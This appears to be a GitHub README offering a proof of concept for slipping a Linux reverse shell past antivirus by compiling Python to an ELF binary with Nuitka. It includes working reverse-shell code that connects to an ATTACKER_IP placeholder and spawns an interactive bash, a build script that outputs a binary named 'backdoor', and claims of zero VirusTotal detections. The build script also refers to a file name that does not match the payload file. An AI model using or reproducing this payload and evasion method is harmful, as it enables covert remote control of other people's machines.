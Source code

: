 # 🛡️ Undetected ELF Payload (AV Bypass) via Python Compilation (Nuitka Only)

This proof-of-concept demonstrates a method to bypass antivirus detection on Linux by compiling a Python reverse shell into an ELF binary using [Nuitka](https://github.com/Nuitka/Nuitka). The compiled payload remains undetected by major antivirus engines, including on VirusTotal.

> 📌 CVE submission in progress.

---

## 🚀 Summary

- 💻 Payload: Python reverse shell
- ⚙️ Method: Python → ELF using Nuitka only
- 🧩 Obfuscation: No extra strip or packing applied
- 🛡️ Result: 0 detections on VirusTotal (at the time of testing)

---

## 📦 PoC Files

| File | Description |
|------|-------------|
| `payload.py` | Python reverse shell |
| `build.sh` | Simple build script using Nuitka |
| `dist/payload` | Final compiled ELF binary |
| `vt-scan.jpg` | VirusTotal scan result showing 0 detections |
| `backdoor` | The Backdoor in the virus total sha256: df60a181ceba07d35350fb7d754f239685996b40ea24d155a82344f7fd52b651

---

## 🧪 Tested Against

- ✅ VirusTotal (0/65 engines detected)
- ✅ Kaspersky Linux Endpoint
- ✅ ClamAV
- ✅ Windows Defender (via WSL)

---

## 🔧 Build Instructions

```bash
sudo apt update
sudo apt install python3 python3-pip gcc g++ -y
pip3 install nuitka

# Compile the Python file into an ELF binary
bash build.sh
```
---
## 🐍 payload.py
```bash
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER_IP",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```
Replace ATTACKER_IP with your ip 
---
## 🔨 build.sh
```bash
#!/bin/bash

python -m nuitka --onefile --standalone --remove-output --output-filename=backdoor backdoor.py
mkdir -p dist
mv backdoor dist/payload
```
---
👤 Credits

Discovered and developed by:
Mohamed Aly (00xCanelo)
🔗 https://github.com/00xCanelo


